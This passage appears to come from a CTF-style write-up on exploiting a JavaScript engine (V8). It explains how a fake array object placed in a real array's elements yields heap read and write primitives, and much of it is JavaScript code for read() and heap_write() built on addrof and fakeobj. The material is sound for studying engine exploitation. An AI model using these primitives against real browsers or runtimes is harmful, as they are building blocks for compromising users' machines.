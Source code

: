 Note that the offset is incremented until addrof works because the offset can change a bit depending on the heap layout.

### restricted read and write
Consider the following array setup:
```
[metadata] +0x0: <pointer to float map>
[metadata] +0x4: <length of elements>
[0]        +0x8: <pointer to float map>
           +0xc: <whatever we want 1>
[1]       +0x10: <pointer to where we want to write>
          +0x14: <whatever we want 2>
```

We can make a dummy array and set up `[0]` and `[1]`.

What if we got a fake object at `+0x8`?
- map pointer would be that of a float map
- properties pointer would point to `<whatever we want 1>`
- elements pointer would point to `<pointer to where we want to write>`
- length would be `<whatever we want 2>`


We can leak a float map by reading (out of bounds) `b[2]`.

Now if we modify the dummy array's index 1, we can control where `elements` points! This lets us read and write within the heap using our fake object by reading and writing to its elements with `[]`.

```javascript
float_map = ftoi(b[2]) & 0xffffffffn

print("float map", hex(float_map))


c = [itof(float_map), itof((4n << 32n) + 0x69696969n)]

print("c @", hex(addrof(c)))



function read(addr){
    if (addr % 2n == 0){
        addr += 1n
    }

    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 60n + 8n)

    return ftoi(fake[0])
}



function heap_write(addr, data){
    if (addr % 2n == 0){
        addr += 1n
    }
    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 60n + 8n)


    fake[0] = itof(data)
}
```

